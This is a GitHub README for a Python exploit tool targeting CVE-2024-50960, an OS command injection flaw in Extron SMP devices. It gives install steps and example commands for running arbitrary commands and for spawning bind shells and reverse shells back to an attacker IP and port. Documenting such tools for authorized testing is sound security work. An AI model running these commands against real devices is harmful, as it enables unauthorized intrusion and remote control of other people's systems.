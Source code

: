 ![alt text](https://github.com/layer8secure/extron-smp-inject/blob/main/extron_inject.png?raw=true)

# CVE-2024-50960: Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

## Overview

This tool exploits [CVE-2024-50960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-50960) — OS command injection vulnerabilities in Extron SMP devices. It allows users to execute arbitrary commands and spawn shells (both bind and reverse) on the target system.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command <target_ip> <target_port> --username admin --password <password> "ls -la"
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind <target_ip> <target_port> <local_port> --username admin --password <password>
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse <target_ip> <target_port> <attacker_ip> <attacker_port> --username admin --password <password>
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.

